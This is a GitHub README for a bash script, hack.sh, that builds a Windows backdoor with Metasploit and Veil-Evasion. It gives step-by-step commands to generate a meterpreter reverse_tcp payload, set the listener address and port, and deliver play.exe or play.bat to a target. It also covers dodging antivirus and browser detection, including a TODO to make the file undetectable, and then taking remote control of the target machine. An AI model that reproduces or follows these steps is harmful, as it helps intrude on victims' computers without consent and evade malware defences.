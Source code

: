 # cybersecurity 

This bashscript runs metasploit framework's msfconsole and opens backdoor in windows machine.

### Installation
- Download the script in the repository and move to a directory 
  OR
  ```sh
  git clone https://github.com/meanishn/cybersec.git
  ```
- change to the directory with script file
- Run
  ```sh
    ./hack.sh
  ```
- After a while you should be able to see meterpreter console
  ```sh
    meterpreter>
  ```
- In the current directory you should be able to see the executable named ``` play.exe ```

The executable file play.exe should be sent to the target machine (windows xp/7). 
When this executable is opened in target machine(windows) then in your host machine(kali) you have a meterpreter console running
with full access to the windows machine.

NOTE: If you are downloading, use internet Explorer to download this exe file. Other browsers will detect this as virus and wont allow you to download.

To test the attack, type ``` screenshot ``` in the meterpreter console. You should get the screenshot image from your target machine.

//TODO
Make this play.exe undetectable by antivirus and browser

### Details
Requirements: msfconsole (pre-installed with kali), veil-evasion
- Install git
  ```sh
    sudo apt-get install -y git
  ```
- Installing veil-evasion
  veil evasion is used so just to make sure that the payload that is created is not detected as virus.
  ```sh
  git clone https://github.com/Veil-Framework/Veil.git
  cd Veil/
  cd setup
  sudo ./setup.sh -c
  ```
  This will install all the dependencies Python 2.7, Py2Exe, PyCrypto,

### How to make attack
  After the veil evasion is installed correctly, type ```veil-evasion``` in terminal.
  
  This should open veil-evasion console. Type ```list``` to see available payloads that can be created.
  For this project we are going to create a powershell shellcode payload. 
  
  As of version 2.28.2 of veil-evasion, we are going to use 
  ```powershell/shellcode_inject_virtual/virtual```payload whose id is 28.
 
 - Go ahead and type
  ```bash 
  use 28 
  ```
  NOTE: The id may be different depending on the version of veil evasion
  
  - In the next console screen. Type:
  ```bash
    generate
  ```
 - Now it asks for option if we want to use msfvenom shellcode. We will be using msfvenom so select 1 (default).
 - You should get the prompt asking for metasploit payload. We will be using meterpreter reverse tcp. so type and press enter
  ```bash
    windows/meterpreter/reverse_tcp
  ```
- Next, we have to provide LHOST, give your local ip: ``` 192.168.10.X```
- Next it asks for LPORT, give it any available port: 443
- Finally, it asks for name of output file. Give any name and press enter (lets say 'play')
  After following these steps, two files should have been created:
  ```bash
    Payload File: /var/lib/veil-evasion/output/source/play.bat
    Handler File: /var/lib/veil-evasion/output/handlers/play_handler.rc
  ```
  
- Exit from veil evasion ```exit```
- Lets start the msfconsole session by using the handler file generated by veil evasion
  ```bash
    msfconsole -r /var/lib/veil-evasion/output/handlers/play_handler.rc
  ```
- Now, we need to transfer the payload file (/var/lib/veil-evasion/output/source/play.bat) to our target machine.
- This file should bypass windows defender and other antivirus and browsers should let you download the file. After downloading execute this batch file.
- In our host machine (kali), we should be able to see the message
  ```bash
    Meterpreter session 1 opened (192.168.....) 
  ```
- Type ```sessions``` to see all session information and make note of id of the session.
- Type ``` sessions -i [ID] ``` to start interacting with target machine
- Finally you should be able to see ```meterpreter>``` console. To test type ```screenshot``` to take screenshot from target machine.
- Enjoy!!!
 
 
  
  
